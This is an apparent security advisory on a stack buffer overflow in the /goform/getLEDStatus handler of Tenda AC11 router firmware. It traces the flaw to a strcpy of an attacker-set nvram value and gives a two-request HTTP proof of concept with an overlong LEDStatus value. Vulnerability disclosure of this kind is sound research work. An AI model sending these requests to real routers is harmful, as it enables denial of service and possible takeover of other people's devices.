 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/getLEDStatus` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800D52C8` (page `/goform/getLEDStatus`).

This function uses `strcpy` to copy the string pointed by `v3` into a stack buffer pointed by `v8`. `v3` is directly retrived from the nvram variable `led_ctl_type` without any security check.

![1](1.PNG)

the `led_ctl_type` variable can be controlled by attacker by calling the function `sub_800D50A4`(page `/goform/setLED`) which gets in a parameter called `LEDStatus` into varialbe `v8`. If `v8` is different from the original value of nvram variable `led_ctl_type` (variable `v9`),then the nvram variable `led_ctl_type` will be set as `v8`

![2](2.PNG)

So by first setting the `LEDStatus` and then requesting the page `/goform/getLEDStatus`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/setLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDStatus=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&LEDCloseTIme=10&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/getLEDStatus HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@leonW7](https://github.com/leonW7) , and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
